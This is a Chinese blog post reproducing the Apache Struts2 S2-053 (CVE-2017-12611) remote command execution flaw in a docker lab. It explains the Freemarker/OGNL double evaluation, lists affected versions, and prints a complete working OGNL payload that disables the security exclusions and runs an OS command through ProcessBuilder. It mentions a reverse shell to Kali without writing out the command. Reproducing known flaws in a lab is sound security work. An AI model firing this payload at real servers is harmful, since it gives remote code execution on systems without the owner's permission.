

# Apache struts2 Freemarker 标签远程命令执行 _CVE-2017-12611(S2-053)漏洞复现 - 雨中落叶 - 博客园

> 原文：[`www.cnblogs.com/yuzly/p/11185927.html`](https://www.cnblogs.com/yuzly/p/11185927.html)

Apache struts2 Freemarker 标签远程命令执行 _CVE-2017-12611(S2-053)漏洞复现

**一、漏洞描述**

Struts2 在使用 Freemarker 模块引擎的时候,同时允许解析 OGNL 表达式。导致用户输入的数据本身不会被 OGNL 解析,但是由于被 Freemarker 解析一次后变成离开一个表达式,被 OGNL 解析第二次,导致任意命令执行漏洞。

**二、漏洞影响版本**

Struts 2.0.1-struts 2.3.33

Struts 2.5-Struts 2.5.10

**三、漏洞环境搭建**

1.使用 docker 搭建环境

**四、漏洞复现**

1、启动环境

　　

2、浏览器访问

　　

POC 如下:

```
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='id').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
注: 执行命令的地方在于(#cmd=’id’)
```

3、查看用户所属组

　　

4、反弹 shell,把 shell 反弹到 kali 上

　　

5、在 kali 端开启监听,可以看到成功获得目标反弹过来的 shell

　　

**五、漏洞防御**

1、 Apache Struts 版本最新版本

2、 Freemarker 标签不要通过 Request 方式获取